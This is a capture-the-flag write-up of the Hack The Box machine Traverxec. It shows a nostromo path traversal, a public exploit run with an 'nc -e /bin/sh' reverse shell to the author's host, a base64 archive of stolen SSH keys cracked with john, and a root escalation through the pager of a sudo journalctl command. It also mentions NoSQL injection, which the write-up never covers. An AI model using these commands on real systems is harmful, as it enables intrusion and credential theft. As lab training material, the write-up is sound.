



 

## Summary

Traverxec just retired today. I had lots of fun solving it and I finally learned about NoSQL injections. Its IP address is ‘10.10.10.165’ and I added it to ‘/etc/hosts’ as ‘traverxec.htb’. Without further ado, let’s jump right in!

## Scanning & Initial Shell

A basic nmap scan was enough to get me started:


root@fury-battlestation:~/htb/blog/traverxec# nmap -O -sV traverxec.htb -oN scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-29 12:47 EST
Nmap scan report for traverxec.htb (10.10.10.165)
Host is up (0.13s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.34 seconds
root@fury-battlestation:~/htb/blog/traverxec#



The website on port 80 only hosted static content and didn’t seem vulnerable to any attack:

However, I’ve never heard of nostromo, so I started googling for vulnerabilities and quickly found one:

Basically, nostromo suffers from a simple path traversal vulnerability. I quickly tested for it by accessing the following URL:


view-source:http://traverxec.htb/.%0D./.%0D./.%0D./.%0D./etc/passwd



Moreover, this vulnerability can also be used to execute commands by including /bin/sh and sending commands after the HTTP request. This is not easy to do with just a browser, however, [this python script](https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py) makes it pretty straightforward.


root@fury-battlestation:~/htb/blog/traverxec# wget https://raw.githubusercontent.com/sudohyak/exploit/master/CVE-2019-16278/exploit.py
--2019-12-29 13:14:31--  https://raw.githubusercontent.com/sudohyak/exploit/master/CVE-2019-16278/exploit.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.16.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.16.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 849 [text/plain]
Saving to: ‘exploit.py’

exploit.py               100%[================================>]     849  --.-KB/s    in 0s      

2019-12-29 13:14:31 (2.83 MB/s) - ‘exploit.py’ saved [849/849]

root@fury-battlestation:~/htb/blog/traverxec# python exploit.py traverxec.htb 80 'nc -e /bin/sh 10.10.15.65 443'

root@fury-battlestation:~/htb/blog/traverxec#



For more details on this vulnerability, I recommend [this well-written blogpost](https://www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html).

## Getting user.txt

After executing the exploit, a reverse shell connected on my machine’s port 443:


root@fury-battlestation:~/htb/blog/traverxec# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.15.65] from (UNKNOWN) [10.10.10.165] 60618
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$



After A LOT of digging around, I found something odd in nostromo’s config file:


www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
cat nhttpd.conf
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
www-data@traverxec:/var/nostromo/conf$ 



The homedirs option is used. Homedirs enable users to access their home directories (duh). They are usually accessed by appending ~user/ to the root web address of a server. zthinking that I might find something interesting, I enumerated the users on the machine and accessed their homedirs:


www-data@traverxec:/var/nostromo/conf$ ls -l /home
ls -l /home
total 4
drwx--x--x 6 david david 4096 Dec 29 13:03 david
www-data@traverxec:/var/nostromo/conf$



I then figured out that the www-data needs to read this page from somewhere. According to the configuration file, each user’s homedir files are placed under ~/public_www/. I listed david’s and found a hidden directory that contained an interesting archive:


www-data@traverxec:/var/nostromo/conf$ cd /home/david/public_www
cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls -l
ls -l
total 8
-rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area
www-data@traverxec:/home/david/public_www$ ls protected-file-area
ls protected-file-area
backup-ssh-identity-files.tgz
www-data@traverxec:/home/david/public_www$



I transferred the archive on my local machine and tried using david’s private SSH key to impersonate him:


root@fury-battlestation:~/htb/blog/traverxec# echo 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 | base64 -d > archive.tgz
root@fury-battlestation:~/htb/blog/traverxec# tar xvf archive.tgz 
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
root@fury-battlestation:~/htb/blog/traverxec# cp home/david/.ssh/id_rsa ~/.ssh/david_traverxec
root@fury-battlestation:~/htb/blog/traverxec# chmod 600 ~/.ssh/david_traverxec
root@fury-battlestation:~/htb/blog/traverxec# ssh david@traverxec.htb -i ~/.ssh/david_traverxec
Enter passphrase for key '/root/.ssh/david_traverxec': 

root@fury-battlestation:~/htb/blog/traverxec#



The key was protected with a passphrase, so I cracked it with john and then removed it completely:


root@fury-battlestation:~/htb/blog/traverxec# locate ssh2john
/usr/share/john/ssh2john.py
root@fury-battlestation:~/htb/blog/traverxec# /usr/share/john/ssh2john.py ~/.ssh/david_traverxec > crackme
root@fury-battlestation:~/htb/blog/traverxec# john crackme --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (/root/.ssh/david_traverxec)
1g 0:00:00:05 DONE (2019-12-29 13:35) 0.1779g/s 2551Kp/s 2551Kc/s 2551KC/sa6_123..*7¡Vamos!
Session completed
root@fury-battlestation:~/htb/blog/traverxec# ssh-keygen -p -P "hunter" -N "" -f ~/.ssh/david_traverxec
Your identification has been saved with the new passphrase.
root@fury-battlestation:~/htb/blog/traverxec# ssh david@traverxec.htb -i ~/.ssh/david_traverxec
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sun Dec 29 13:26:10 2019 from 10.10.14.126
david@traverxec:~$ wc -c user.txt 
33 user.txt
david@traverxec:~$



The user proof starts with ‘7b’ 😉

## Exploiting journalctl to get root

Once I submitted the user proof, I listed the contents of david’s home directory and found an interesting script:


david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cd bin
david@traverxec:~/bin$ ls -l
total 8
-r-------- 1 david david 802 Oct 25 16:26 server-stats.head
-rwx------ 1 david david 363 Oct 25 16:26 server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
david@traverxec:~/bin$



The interesting part is the last line, mainly because the script calls ‘sudo’, but it can be ran as david. This made me believe that david can run that command without providing a password for root. I tried running it myself, and it opened what I recognized as vim:


david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sun 2019-12-29 12:56:58 EST, end at Sun 2019-12-29 13:49:22 EST. --
Dec 29 13:28:04 traverxec nhttpd[2061]: /../../../../bin/sh sent a bad cgi header
Dec 29 13:36:21 traverxec crontab[2282]: (www-data) LIST (www-data)
Dec 29 13:48:20 traverxec nhttpd[459]: sys_write_a: Connection reset by peer
Dec 29 13:48:33 traverxec su[2972]: pam_unix(su-l:auth): authentication failure; logname= uid=33 e
Dec 29 13:48:35 traverxec su[2972]: FAILED SU (to david) www-data on none
lines 1-6/6 (END)



Instead of typing ‘q’ to quit, I typed ‘!/bin/bash’ to execute the bash program. Because vim was opened as root, the new shell also got root privileges:


david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sun 2019-12-29 12:56:58 EST, end at Sun 2019-12-29 13:49:22 EST. --
Dec 29 13:28:04 traverxec nhttpd[2061]: /../../../../bin/sh sent a bad cgi header
Dec 29 13:36:21 traverxec crontab[2282]: (www-data) LIST (www-data)
Dec 29 13:48:20 traverxec nhttpd[459]: sys_write_a: Connection reset by peer
Dec 29 13:48:33 traverxec su[2972]: pam_unix(su-l:auth): authentication failure; logname= uid=33 e
Dec 29 13:48:35 traverxec su[2972]: FAILED SU (to david) www-data on none
!/bin/bash
root@traverxec:/home/david/bin# wc -c /root/root.txt 
33 /root/root.txt
root@traverxec:/home/david/bin#



The root proof starts with ‘9a’ 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuhito) 🙂

Until next time, hack the world.

yakuhito, over.

